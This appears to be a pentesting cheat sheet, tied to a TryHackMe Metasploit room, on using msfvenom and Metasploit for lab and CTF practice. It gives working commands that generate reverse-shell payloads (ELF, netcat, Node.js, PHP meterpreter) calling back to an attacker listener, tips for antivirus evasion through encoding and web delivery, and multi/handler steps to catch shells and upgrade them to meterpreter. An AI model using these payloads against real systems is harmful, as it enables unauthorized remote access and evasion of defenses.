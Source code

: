 # 🐍 msfvenom 🐍

[![metasploitexploitation](../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit below
$ msfvenom --list payloads | grep meterpreter
```

Selecting a payload can be a thorough process, as this choice is determined by the operating system (platform), the firewall <small>(=the kind of connection allowed)</small>, the antivirus, the program available to execute the reverse shell (php, python...)...

</div><div>

There are two categories of payloads: **single/inline/stageless**, and **staged** payloads. The main difference is that staged payloads are sent in two steps. First, a simple payload (called stager) is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 📝 Common options 📝

<div class="row row-cols-md-2"><div>

The first parameter is `-p` which define the kind of reverse shell you want.

```bash
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

You need to provide information that the machine will use to connect back: `LHOST` <small>(you IP address, or `tun0` if using a VPN)</small>, and `LPORT` <small>(you local port)</small>.

```bash
$ msfvenom [...] LHOST=tun0 LPORT=4444 [...]
```
</div><div>

You will want to either generate an executable (.exe, .elf...) or generate some raw code (php, js...). You can do that with `-f`.

```bash
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for RAW
```
</div></div>

<hr class="sep-both">

## 👻 Antivirus and firewall evasion 👻

<div class="row row-cols-md-2"><div>

You can encode the payload, to make it harder to detect, or smaller/...

```bash
$ msfvenom [...] -e php/base64
```
</div><div>

You can use [web delivery](https://www.offensive-security.com/metasploit-unleashed/web-delivery/). For instance, if you want to open a reverse shell on a host in which you got a powershell

* set the target: powershell
* set other options <small>(LHOST...)</small>
* run
* paste the code prompted in the terminal
* done
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very instable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```
</div></div>

<hr class="sep-both">

## 🕸️ Catch reverse shells with Metasploit 🕸️

<div class="row row-cols-md-2"><div>

You can use the metasploit console to catch a reverse shell, which may or may not be a reverse shell. You can then upgrade it to a meterpreter shell, and use a lot of commands/... provided by the framework.

```bash
$ msfconsole -q
msf6 > use multi/handler
msf6 exploit('multi/handler') > setg LHOST tun0
msf6 exploit('multi/handler') > setg LPORT 4444
# for instance, to catch a php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > set PAYLOAD php/meterpreter/reverse_tcp
msf6 exploit('multi/handler') > run
# then wait for a connection
# then you meterpreter will pop
meterpreter> help # see what you can do
# refer to the metasploit course
```
</div><div>

If you are using this with a non-meterpreter bind/reverse shell

```bash
# run the exploit as a job (in the background)
msf6 exploit('multi/handler') > run -j
[XXX Session 1 XXX]
# upgrade session 1 to a meterpreter
msf6 exploit('multi/handler') > sessions -u 1
[XXX Session 2 XXX]
# move to the upgraded meterpreter
msf6 exploit('multi/handler') > sessions -i 2
meterpreter> help
```
</div></div>